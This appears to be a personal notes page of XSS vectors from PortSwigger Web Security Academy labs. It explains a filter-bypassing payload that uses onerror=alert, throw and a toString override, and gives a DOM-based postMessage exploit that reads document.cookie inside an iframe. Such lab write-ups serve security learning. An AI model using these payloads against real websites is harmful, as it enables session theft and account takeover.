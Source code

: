 ```yaml
---
title: XSS Vectors
date: 2021-11-16T21:07:41+01:00
---
```

# XSS Vectors
## XSS Vector Without Spaces, Using Throw

This payload is taken from the portswigger academy [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked). The request url is the following `/post?postId=5&%27},x=x=%3E{onerror=alert;throw/**/1337},toString=x,window+'',{x:'<`. When the request is sent, the injected html looks like this:

``` html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27},x%3dx%3d%3e{onerror%3dalert%3bthrow/**/1337},toString%3dx,window+%27%27,{x%3a%27%3c'}).finally(_ => window.location = '/')">Back to Blog</a>
```

When we extract just the href attribute, remove the javascript prefix and url-decode everything(remember, since we are in an href, url encoded values are actually used in their decoded form, so even though the \' is encoded to %27, it still closes the previous single quote) we are left with the js code:

``` javascript
fetch('/analytics',
  {method:'post',body:'/post?postId=5&'},x=x=>{onerror=alert;throw/**/1337},toString=x,window+''
      ,{x:''}).finally(_ => window.location = '/')
```

What this vector does can be split up into steps:

1.  close the `body:` of the dictionary and close the dictionary, and add a new parameter to the call of the `fetch()` function.
2.  In this new call, define a new function `x` that always throws the error `1337` a. When the function is called, `window.onerror` is set to the `alert` function, so every error thrown in `x()` is passed to `alert` b. then, we throw an error with the message `1337` c. `x(x)` also has a parameter named x, this is because we use the x function as a substitute for `toString`. If we hadn\'t defined it like that, the javascript interpreter would throw an error before we could even call `x`, therefore, our payload wouldn\'t run.
3.  Then, with `toString=x`, we set the toString function to x
4.  Finally, we run `window+''`, which implicitly calls toString and therefore runs our malicious function x.
5.  The rest are used to close the dictionary that we have injected into so that we end up with valid javascript.

# DOM Based XSS message

``` html
<script>
function message(){
document.getElementById('xss').contentWindow.postMessage('{"type":"load-channel","url":"javascript:alert(document.cookie)"}','*');
}
</script>

<iframe height=1000 width=1000 id="xss" src="https://aca21f1a1ea5dc85808d28650079004d.web-security-academy.net/" onload="message()">
</iframe>
```